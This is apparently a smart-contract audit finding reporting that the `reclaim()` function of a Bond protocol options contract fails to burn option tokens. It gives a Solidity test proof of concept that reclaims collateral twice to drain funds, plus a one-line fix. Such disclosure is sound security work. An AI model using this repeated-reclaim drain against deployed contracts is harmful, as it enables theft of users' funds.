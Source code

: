 stuxy

high

# reclaim() function lacks optionToken burn which let's receiver empty the FixedStrikeOptionTeller contract.

## Summary
`reclaim(FixedStrikeOptionToken optionToken_)` function lacks _optionToken_ burning which allows _receiver_ to empty _FixedStrikeOptionTeller_ contract of either _payoutToken_ or _quoteToken_.

## Vulnerability Detail
_receiver_ can call `reclaim(FixedStrikeOptionToken optionToken_)` function multiple times until the contract has supply of either _payoutToken_ or _quoteToken_ depending on _call_ value.
Whenever the contract gets funded receiver can again empty it out.

## Impact
_receiver_  can steal all the funds from the contract, by deploying different optionTokens for different  _payoutToken_ or _quoteToken_ and reclaiming them again and again.

## Code Snippet
Vulnerable Function:
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L395-L437

## Tool used
Manual Review

## PoC
Paste this function in `FixedStrikeOption.t.sol` to test. This function reclaims funds twice.
```solidity
function test_reclaim_call_exploit() public {
        // Deploy call option token
        uint256 strikePrice = 5 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            alice, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );
        FixedStrikeOptionToken optionTokenBob = teller.deploy(
            abc, // ERC20 payoutToken
            def, // ERC20 quoteToken
            uint48(0), // uint48 eligible (timestamp) - today
            uint48(block.timestamp + 8 days), // uint48 expiry (timestamp) - 20220109
            bob, // address receiver
            true, // bool call (true) or put (false)
            strikePrice // uint256 strikePrice
        );

        // Mint option tokens by depositing collateral (payout tokens)
        uint256 amount = 100 * 10 ** abc.decimals();
        vm.prank(alice);
        teller.create(optionToken, amount);

        vm.prank(bob);
        teller.create(optionTokenBob, amount);

        // Warp forward past expiry
        vm.warp(block.timestamp + 9 days);

        // Reclaim collateral as receiver
        uint256 alicePayoutStart = abc.balanceOf(alice);
        uint256 tellerPayoutStart = abc.balanceOf(address(teller));

        vm.startPrank(alice);
        teller.reclaim(optionToken);
        teller.reclaim(optionToken);
        vm.stopPrank();
        // Check that balance updates are correct
        // - Alice receives the amount of payoutTokens.
        // - Teller pays out the amount of payoutTokens.
        assertEq(abc.balanceOf(alice), alicePayoutStart + amount*2);
        assertEq(abc.balanceOf(address(teller)), tellerPayoutStart - amount*2);
        // Note: option tokens are not burned on a reclaim, they just remain in place since they are expired, that's why the receiver can reclaim tokens again and again
        
    }
```
## Recommendation
Burn _optionToken_ after reclaiming it. Add this line at last in the _reclaim()_ function.
```solidity
optionToken.burn(msg.sender, amount);
```